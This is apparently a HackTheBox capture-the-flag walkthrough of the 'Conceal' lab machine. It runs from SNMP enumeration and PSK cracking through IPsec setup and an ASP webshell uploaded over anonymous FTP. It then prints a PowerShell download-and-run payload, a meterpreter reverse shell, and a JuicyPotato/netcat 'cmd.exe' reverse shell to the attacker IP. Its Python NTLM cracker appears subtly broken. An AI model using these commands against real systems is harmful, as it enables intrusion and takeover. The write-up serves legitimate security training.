

Informations
----
    Ip :  10.10.10.116  Created by : bashlogic
    Level : Hard        Base Points : 40

The Conceal system, available on the platform [HackTheBox](https://www.hackthebox.eu/), was very interesting and fun. The level of difficulty was rather high, given that a good enumeration was more than enough. In addition, I have learned a lot of choice throughout the exploitation of the flaws in this system.

- There is a Simple Network Manager Protocol (SNMP) port that is open, and it has been publicly released, and we find a PSK address.  
- Next, we will crack the preshared key (PSK) used during the authentication phase to a Virtual Private Network (VPN) using IPsec.  
- You need a good configuration to reach the remote server using the StrongSwan program (IPSEC).  
- We need to create a routing point with IPSEC to redirect the ports and access the machine.  
- You can upload files to FTP, and then run the script on the web page and make a reverse shell.  
- For administrator access, SeImpersonatePrivilege is enabled so on can use the JuicyPotato program.

Source :  

- https://github.com/riparino/Task_Scheduler_ALPC  
- https://wiki.strongswan.org/projects/strongswan/wiki/UserDocumentation

Nmap Scan
----
So there is no visibly open port so look for the UDP and look for ports that can be very interesting for enumeration.

    root@Seyptoo:~/htb/box/Conceal# nmap -sC -sV -oA nmap/check 10.10.10.116

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-05-17 19:53 CEST
    Nmap scan report for 10.10.10.116
    Host is up (0.036s latency).
    All 1000 scanned ports on 10.10.10.116 are filtered

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 39.80 seconds
    
To scan the ports using the User Datagram Protocol (UDP), we will use the masscan program. Transmission control protocol (TCP) Because on scan there was no open port.

    root@Seyptoo:~/htb/box/Conceal# masscan -p1-65535,U:1-65535 10.10.10.116 --rate=1000 -e tun0

    Starting masscan 1.0.3 (http://bit.ly/14GZzcT) at 2019-05-17 18:03:26 GMT
     -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
    Initiating SYN Stealth Scan
    Scanning 1 hosts [131070 ports/host]
    Discovered open port 161/udp on 10.10.10.116                                   

From the scan we just did, we can see that the port 161 port using the User Datagram Protocol (UDP) is open. This port is most often used by the Simple Network Management Portocole (SNMP) service. This protocol is mainly used by network administrators to obtain information about the system or to make modifications.

    root@Seyptoo:~/htb/box/Conceal# nmap -sU -sC -sV -p161 10.10.10.116

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-05-17 20:11 CEST
    Nmap scan report for 10.10.10.116
    Host is up (0.051s latency).
    PORT    STATE SERVICE VERSION
    161/udp open  snmp    SNMPv1 server (public)
    [...SNIP...]

SNMP Enumeration
----
So we will try to run the snmpwalk program and list the service in question.

    root@Seyptoo:~/htb/box/Conceal# snmpwalk -c public -v 1 10.10.10.116
    [...SNIP...]
    iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
    iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
    [...SNIP...]
    
As you can see there is a PSK address, this address will allow us a lot of things, first of all let's try to crack the hash, so the hash is from NTLM. So I created a Python script to crack the hash in question.


#coding:utf-8

import sys
import hashlib
import binascii
import threading
import Queue
import time

class NTLM(threading.Thread):
	def __init__(self, system_threads=30):
		threading.Thread.__init__(self)
		self.threads = system_threads
		# Calling Thread variable.
		try:
			# We will test the arguments.
			# To handle incorrect errors.
			
			self.LIST = sys.argv[1]
			self.NTLM = sys.argv[2]
	
			# I create an exception for the error.
			# For the use of the program.
		except IndexError as e:
			sys.exit(e)

	def NTLModel(self, q):
		"""
		This function will handle the attack.
		
		Parameters
		----
			self : The self parameter is used to manage the supervariables
			q : It's the wordlist for bruteforce hash NTLM.
			
		Return
		----
		Be he will return the password or nothing.
		"""
		while True:
			qet = q.get()
			if(self.NTLM.islower() == False):
				self.NTLM = self.NTLM.lower()

				HASH = hashlib.new('md4', qet.encode('utf-16le')).digest()
				if(binascii.hexlify(HASH) == self.NTLM):
					sys.exit("[+] NTLM : %s:%s" %(self.NTLM, qet))

	def run(self):
		"""
		This function will handle
		the thread system to speed up the
		program and the list.
		"""
		if(self.LIST):
			q = Queue.Queue()
			with open(self.LIST, "r") as files:
				for online in files:
					q.put(online.rstrip("\n\r"))
				self.NTLModel(q)	

			for i in range(int(self.threads)):
				wrapper = threading.Thread(target=self.NTLModel, args=(i, q))
				wrapper.setDaemon(True)
				wrapper.start()
				wrapper.join(600)

			q.join()
		

if __name__ == "__main__":
	NTLM().start()



So the program looks like this concretely you just have to run and the program will crack the hash, if you want bruteforce the password it'll take a long time. I advise you to go to CrackStation.

	root@Seyptoo:~/htb/box/Conceal# python NTLM.py /usr/share/wordlist/rockyou.txt 9C8B1A372B1878851BE2C097031B6E43
	[-] ERROR NTLM/1000 : 9c8b1a372b1878851be2c097031b6e43:azerty
	[...SNIP...]

	[+] NTLM : 9c8b1a372b1878851be2c097031b6e43:Dudecake1!

After a long time of bruteforce, he finally found the password, but I don't recommend using the program it will take a lot of time. Go to CrackStation instead.

IPSEC Configuration
----
So we come to the most interesting part of the machine because it was a time when I took a lot of time but also suffering, I really took a lot of time.  

IPsec (Internet Protocol Security), defined by the IETF as an open standards framework for ensuring private and protected communications over IP networks, through the use of cryptographic security services, is a set of protocols using algorithms allowing the transport of secure data over an IP network.  

So we are going to modify the file **/etc/ipsec.secrets** and finally the file **/etc/ipsec.conf**, so look at the configurations below.   

File : ipsec.conf

	config setup
	    charondebug="all" 

	conn conceal
	    keyexchange=ikev1
	    ike=3des-sha1-modp1024
	    esp=3des-sha1
	    leftid=Destitute
	    left=10.10.14.179
	    leftsubnet=10.10.14.0/24
	    leftauth=psk
	    rightid=%any
	    right=10.10.10.116
	    rightsubnet=10.10.10.116[tcp/%any]
	    rightauth=psk
	    auto=add
	    type=transport
	    ikelifetime=28800
	    keylife=28800
	    fragmentation=yes
	    keyingtries=1

Do not forget to change the IP address of the tun0 interface in the leftsubnet and in the left, so that there is no problem at the execution level.   

File : ipsec.secrets

	# ipsec.secrets - strongSwan IPsec secrets file

	%any %any : PSK "Dudecake1!"
	
I will not explain to you in detail the operation of the lines, because otherwise it will be very very long. There is already documentation that shows us how it works. So to launch the configuration and to test if the connection works successfully launched the command just below.

	root@Seyptoo:~/htb/box/Conceal# ipsec up conceal
	generating QUICK_MODE request 3539874152 [ HASH SA No ID ID ]
	sending packet: from 10.10.15.229[500] to 10.10.10.116[500] (196 bytes)
	received packet: from 10.10.10.116[500] to 10.10.15.229[500] (212 bytes)
	parsed QUICK_MODE response 3539874152 [ HASH SA No ID ID N((24576)) ]
	selected proposal: ESP:3DES_CBC/HMAC_SHA1_96/NO_EXT_SEQ
	detected rekeying of CHILD_SA conceal{1}
	CHILD_SA conceal{2} established with SPIs c8dc7342_i dde379e8_o and TS 10.10.15.229/32 === 10.10.10.116/32[tcp]
	connection 'conceal' established successfully

The connection was established successfully so it's perfect so now we will create a routing point, we will redirect the ports to our network to access the filtered ports of the machine, I have made a small diagram below for that you understand the system.

So to redirect the filtered ports to our machine you must simply type the command below and you will see that the redirection is done very simply.

	root@Seyptoo:~/htb/box/Conceal# ipsec route conceal
	'conceal' routed
	
So if we do a TCP port scan again we will see that there are services open in the machine.
	
	root@Seyptoo:~/htb/box/Conceal# nmap -sT -p1-65535 10.10.10.116 --min-rate 1000
	Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-18 11:44 CEST
	Nmap scan report for 10.10.10.116
	Host is up (0.039s latency).
	Not shown: 65523 closed ports
	PORT      STATE SERVICE
	21/tcp    open  ftp
	80/tcp    open  http
	135/tcp   open  msrpc
	139/tcp   open  netbios-ssn
	445/tcp   open  microsoft-ds
	
	Nmap done: 1 IP address (1 host up) scanned in 79.67 seconds
	root@Seyptoo:~/htb/box/Conceal# nmap -sT -sC -sV -p21,80,135,139,445 10.10.10.116                                                                                 
	Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-18 11:50 CEST
	Nmap scan report for 10.10.10.116
	Host is up (0.036s latency).

	PORT    STATE SERVICE       VERSION
	21/tcp  open  ftp           Microsoft ftpd
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst:
	|_  SYST: Windows_NT
	80/tcp  open  http          Microsoft IIS httpd 10.0
	| http-methods:
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/10.0
	|_http-title: IIS Windows
	135/tcp open  msrpc         Microsoft Windows RPC
	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp open  microsoft-ds?
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

	Host script results:
	| smb2-security-mode:
	|   2.02:
	|_    Message signing enabled but not required
	| smb2-time:
	|   date: 2019-05-18 11:50:58
	|_  start_date: 2019-05-18 06:32:33

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                         
	Nmap done: 1 IP address (1 host up) scanned in 23.56 seconds

We have very interesting information, we can see that we can connect as Anonymous in FTP and we can upload files to the system via the FTP protocol.
	
HTTP
----
So if we go to the HTTP server, there is not much, so for that I will launch a gobuster attack to see if there are any interesting folders or files.

	root@Seyptoo:~/htb/box/Conceal# gobuster -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.116
	/upload (Status: 301)

So the website only accepts asp or aspx, but in no case does it accept PHP. So for that I will upload an ASP WebShell shell for IIS 8 to the server to send commands. A good link to download the shell.
https://packetstormsecurity.com/files/137024/ASP-Webshell-For-IIS-8.html  

	root@Seyptoo:~/htb/box/Conceal# ftp 10.10.10.116
	Connected to 10.10.10.116.
	220 Microsoft FTP Service
	Name (10.10.10.116:seyptoo): anonymous
	331 Anonymous access allowed, send identity (e-mail name) as password.
	Password:
	230 User logged in.
	Remote system type is Windows_NT.
	ftp> mput index.asp
	mput index.asp? y
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	226 Transfer complete.
	1423 bytes sent in 0.00 secs (17.8563 MB/s)
	ftp> 

So after uploading the shell we can execute commands from curl.

	root@Seyptoo:~/htb/box/Conceal# curl http://10.10.10.116/upload/index.asp -d "cmd=whoami"
	[...SNIP...]
	conceal\destitute
	[...SNIP..]
	
Perfect we are ready for the reverse shell we will use metasploit the web_delivery module to perform our reverse shell with no problem.

	msf > use exploit/multi/script/web_delivery
	msf exploit(multi/script/web_delivery) > set LHOST 10.10.15.229
	msf exploit(multi/script/web_delivery) > set LPORT 9001
	msf exploit(multi/script/web_delivery) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
	msf exploit(multi/script/web_delivery) > set TARGET 4
	
So the code provided in powershell must be put from the website and not from curl because there are encoding problems etc. So I strongly advise you to go on the path directly. The code provided by Metasploit.

	powershell.exe -nop -w hidden -c $z="echo ($env:temp+'\DF95KsPU.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.15.229:8080/mSErF4WvPeAoECb', $z); invoke-item $z
	
After running the powershell code we have a shell, but the problem is we are not administrator.

	msf exploit(multi/script/web_delivery) > exploit
	[*] 10.10.10.116     web_delivery - Delivering Payload                                                
	[*] Sending stage (206403 bytes) to 10.10.10.116
	[*] Meterpreter session 1 opened (10.10.15.229:4444 -> 10.10.10.116:49675) at 2019-05-18 13:50:59 +0200

	meterpreter > shell
	Process 1564 created.
	Channel 1 created.
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.
	
	C:\Windows\SysWOW64\inetsrv> whoami
	conceal\destitute

PrivEsc
----
The privesc is not very complicated on the machine we will type the command below. By running whoami /priv, we see that user rights will allow us to use the juicy-potato exploit to elevate to NT AUTORITY/SYSTEM.

	
	C:\Users\Windows\System32>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                               State   
	============================= ========================================= ========
	SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
	SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
	SeShutdownPrivilege           Shut down the system                      Disabled
	SeAuditPrivilege              Generate security audits                  Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
	SeUndockPrivilege             Remove computer from docking station      Disabled
	SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
	SeTimeZonePrivilege           Change the time zone                      Disabled

We must choose the appropriate CLSID for our operating system. We will first check which version of Windows is currently running : 

	C:\inetpub\wwwroot\upload>systeminfo
	
	Host Name:                 CONCEAL
	OS Name:                   Microsoft Windows 10 Enterprise
	OS Version:                10.0.15063 N/A Build 15063
	
Then, we check on the site https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md the list of CLSIDs for the operating system.  

We will use {5BC7A3A1-E905-414B-9790-E511346F5CA6}, for no particular reason, then run JuicyPotato and run another netcat to generate a new reverse shell for us.

	C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.39 9001" -t * -c {5BC7A3A1-E905-414B-9790-E511346F5CA6}
	[...SNIP...]
	[+] CreateProcessWithTokenW OK
	
And then we just have to do the reverse shell from our physical machine to be administrator.

	root@Seyptoo:~/htb/box/Conceal# nc -lvnp 9001
	listening on [any] 9001 ...
	connect to [10.10.14.39] from (UNKNOWN) [10.10.10.116] 45135
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	nt authority\system

CONCLUSION
----
Here we are, we finally come to the end of this article which, I hope, will have you more. A really interesting box and concretely quite original, there was a lot of manipulation and configuration to do at the level of the `IPSEC` protocol but it's still a very good box.
